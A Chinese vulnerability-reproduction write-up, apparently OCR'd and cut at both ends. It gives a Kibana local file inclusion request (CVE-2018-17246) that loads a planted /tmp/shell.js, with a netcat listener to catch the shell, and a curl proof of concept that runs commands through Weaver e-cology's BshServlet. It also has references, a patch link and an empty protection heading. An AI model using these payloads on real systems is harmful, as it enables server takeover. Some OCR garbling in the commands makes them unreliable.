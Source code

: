     请求包含刚刚创建的 shell：
    
    http://192.168.1.3:5601/api/console/api\_server?sense\_version=%40%40SENSE\_VERSION&apis=../../../../../../../../../../../tmp/shell.js
    
4.  本地监听：
    
    nc -l 8080 -v
    
5.  漏洞复现
    
    Elasticsearch 核心插件 Kibana 本地文件包含漏洞分析（CVE-2018-17246）
    
    https://www.anquanke.com/post/id/168291
    
    ELK LFI CVE-2018-17246
    
    https://wh0ale.github.io/2018/12/18/2018-12-18-ELK%20LFI%20CVE-2018-17246/
    
6.  坑点
    
    最终漏洞的影响关键在于如何创建 shell 文件。
    
7.  修复建议
    
    目前厂商已发布升级补丁以修复漏洞，补丁获取链接:
    
    https://access.redhat.com/security/cve/cve-2018-17246
    

![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

泛微 OA 相关

  

### 泛微 OA 系统多版本存在命令执行漏洞

1.  漏洞简介
    
    泛微 OA 办公系统是一款协调办公软件。
    
    泛微协同商务软件系统存在命令执行漏洞，攻击者可利用该漏洞获取服务器权限。
    
2.  影响范围
    
    泛微 e-cology<=9.0
    
3.  漏洞复现
    
    https://www.cnblogs.com/Sylon/p/11765543.html
    
4.  Poc
    
    漏洞路径:/weaver/bsh.servlet.BshServlet
    
    exec("whoami")curl http://xx.xx.xx.xx.xx/weaver/bsh.servlet.BshServlet/ -d 'bsh.script=eval%00("ex"%2b"ec("whoami")");&bsh.servlet.captureOutErr=true&bsh.servlet.outp ut=raw'
    
5.  批量检测工具
    
    https://github.com/sunird/e-cology-poc
    
6.  防护方法
    